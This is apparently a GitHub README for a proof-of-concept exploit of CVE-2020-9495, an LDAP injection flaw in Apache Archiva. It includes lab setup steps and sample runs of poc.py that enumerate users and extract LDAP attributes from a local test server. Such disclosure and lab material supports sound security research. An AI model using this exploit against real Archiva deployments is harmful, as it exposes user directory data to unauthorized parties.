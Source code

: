 # CVE-2020-9495 PoC

CVE-2020-9495 is medium severity LDAP injection vulnerability in [Apache Archiva](https://archiva.apache.org/) versions before 2.2.5. It allows an attacker to retrieve any LDAP attribute values of users that exist on the LDAP server.

From the official Apache Archiva [advisory](https://archiva.apache.org/security.html#CVE-2020-9495):

> By providing special values to the archiva login form a attacker is able to retrieve user attribute data from the connected LDAP server. With certain characters it is possible to modify the LDAP filter used to query the users on the connected LDAP server. By measuring the response time, arbitrary attribute data can be retrieved from LDAP user objects.

## PoC

The [poc.py](poc.py) script demonstrates how an unauthorized attacker can enumerate users on LDAP server integrated with Archiva and fetch the value of any attribute of any user.

### Local Archiva test server

Skip this step if you already have an Archiva server with enabled LDAP authentication.

1. Download Archiva 2.2.4 and extract it

   ```shell
   $ wget https://archive.apache.org/dist/archiva/2.2.4/binaries/apache-archiva-2.2.4-bin.tar.gz
   $ tar -zxf apache-archiva-2.2.4-bin.tar.gz

2. Run OpenLDAP server

   ```shell
   $ docker run -p 2389:389 --name my-openldap-container osixia/openldap:1.3.0
   ```

3. Import users from [users.ldif](users.ldif) to LDAP

   ```shell
   $ ldapadd -x -D "cn=admin,dc=example,dc=org" -w admin -H ldap://localhost:2389 -f users.ldif
   ```

4. Run Archiva server

   ```shell
   $ bin/archiva console
   ```

5. Enable and configure LDAP authentication via web interface

### Enumerate users

```shell
$ ./poc.py --url http://127.0.0.1:8080
[INFO] Enumerating users from http://127.0.0.1:8080
[INFO] Calibration...
[INFO] Calibration done
admin1
admin2
admin3
admin4
admin5
admin6
admin7
user1
user2
user3
user4
```

### Retrieve LDAP attributes' values of `admin1` user

```shell
$ ./poc.py --url http://127.0.0.1:8080 --user admin1 --attr mail
[INFO] Exfiltrating mail attribute of admin1 user from http://127.0.0.1:8080
[INFO] Calibration...
[INFO] Calibration done
admin1@example.com
$ ./poc.py --url http://127.0.0.1:8080 --user admin1 --attr givenName
[INFO] Exfiltrating givenName attribute of admin1 user from http://127.0.0.1:8080
[INFO] Calibration...
[INFO] Calibration done
admin1
$ ./poc.py --url http://127.0.0.1:8080 --user admin1 --attr sn
[INFO] Exfiltrating sn attribute of admin1 user from http://127.0.0.1:8080
[INFO] Calibration...
[INFO] Calibration done
last
```
